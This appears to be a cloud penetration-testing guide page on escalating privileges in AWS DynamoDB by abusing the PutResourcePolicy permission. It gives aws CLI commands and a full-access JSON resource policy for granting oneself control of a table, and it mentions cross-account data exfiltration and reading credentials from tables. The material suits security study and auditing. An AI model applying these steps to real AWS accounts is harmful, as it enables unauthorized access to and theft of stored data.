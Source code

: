 # AWS - DynamoDB Privesc

## dynamodb

For more info about dynamodb check:

[[../aws-services/aws-dynamodb-enum.md]]

### `dynamodb:PutResourcePolicy`, and optionally `dynamodb:GetResourcePolicy`

Since March 2024, AWS offers *resource based policies* for DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

So, if you have the `dynamodb:PutResourcePolicy` for a table, you can just grant yourself or any other principal full access to the table.

Granting the `dynamodb:PutResourcePolicy` to a random principal often happens by accident, if the admins think that granting `dynamodb:Put*` would only allow the principal to put items into the database - or if they granted that permissionset before March 2024...

Ideally, you also have `dynamodb:GetResourcePolicy`, so you do not overwrite other potentially vital permissions, but only inject the added permissions you need:

```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
	--resource-arn <table_arn> \
	--query 'Policy' \
	--output text > policy.json
```

If you cannot retrieve the current policy, just use this one that grants full access over the table to your principal:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "FullAccessToDynamoDBTable",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
            },
            "Action": [
                "dynamodb:*"
            ],
            "Resource": [
                "arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
            ]
        }
    ]
}
```

If you need to customize it, here is a list of all possible DynamoDB actions: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). And here is a list of all actions that can be allowed via a resource based policy *AND which of these can be used cross-account (think data exfiltration!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Now, with the policy document `policy.json` ready, put the resource policy:

```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
	--resource-arn <table_arn> \
	--policy "$(cat policy.json)"
```

Now, you should have the permissions you needed.

### Post Exploitation

As far as I know there is **no other direct way to escalate privileges in AWS just by having some AWS `dynamodb` permissions**. You can **read sensitive** information from the tables (which could contain AWS credentials) and **write information on the tables** (which could trigger other vulnerabilities, like lambda code injections...) but all these options are already considered in the **DynamoDB Post Exploitation page**:

[[../aws-post-exploitation/aws-dynamodb-post-exploitation.md]]

### TODO: Read data abusing data Streams

